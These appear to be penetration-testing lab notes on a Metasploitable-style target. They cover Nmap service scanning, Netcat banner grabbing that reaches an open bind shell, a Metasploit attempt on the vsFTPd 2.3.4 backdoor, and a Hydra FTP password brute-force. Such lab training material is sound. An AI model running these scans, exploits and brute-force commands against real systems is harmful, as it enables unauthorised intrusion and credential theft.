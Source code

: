 **Objective:** Identify open ports on the target system and identify any potentially interesting services that can be exploited to gain access to the system.

```shell
ping -c 1 <target_IP> # Check if the host is alive

# We can begin by performing a service detection scan on 10,000 TCP ports with Nmap on the target system
nmap -sV -p 1-10000 <target_IP>

# Most of the services identified by the Nmap scan are easily recognizable, however, there are a few open ports on the target system that do not have a service banner. For example port 512 and 1524. We can perform banner grabbing with Netcat.
nc -nv <target_IP> 512
nc -nv <target_IP> 1524 
# Why did we receive a shell? We received a shell because the port was running a bind shell.
```

>[!note]
>Remember that whenever Nmap provides us with the service and then a question mark at the end, that means that it's not really sure what this service is and what it's used for, so we would probably manually check this ports with Netcat to see what banner they actually bring up.

### 7.2. Targeting vsFTPd

We are going to explore additional techniques that can be used to exploit an FTP server as well as exploring how we use or obtain a reverse shell.

```shell
ping -c 1 <target_IP>
nmap -sV -sC -p 21 <target_IP>

ftp <target_IP> 21 # anonymous
cd /
ls
```

Previously, the FTP server worked alongside the web server, giving access to the web directory and its files. In this case, however, anonymous FTP access doesn’t reveal any useful directories. While we’ve logged in successfully, we can’t access anything meaningful - this is due to the limited permissions of the anonymous user. If we can find valid user credentials, we might gain access to other directories with more useful content.

The “Connection Refused” error occurs because the backdoor in the vulnerable version of VSFTP (2.3.4) is no longer active. This version had a known vulnerability where attackers modified the source code to include a backdoor that opened a bind shell listener on port 6200, allowing remote access via Netcat. In this case, it appears the system administrator has removed the backdoor, which is why the connection to port 6200 is refused. If we look at the script, we can see a line like `tn2 = Telnet(host, 6200)`, which indicates it’s trying to connect to that backdoor port.

```shell
searchsploit vsftpd

service postgresql start && msfconsole 
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS <target_IP>
exploit
# The exploit module runs but is not successful and as a result, we are not able to gain access to the target system.
# In this case, it looks like the vulnerability has been patched on the system therefore rendering this exploit ineffective. We will have to find another way in.

hydra
-L /usr/share/metasploit-framework/data/wordlists/unix_users.txt
-P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt
<target_IP> ftp

```
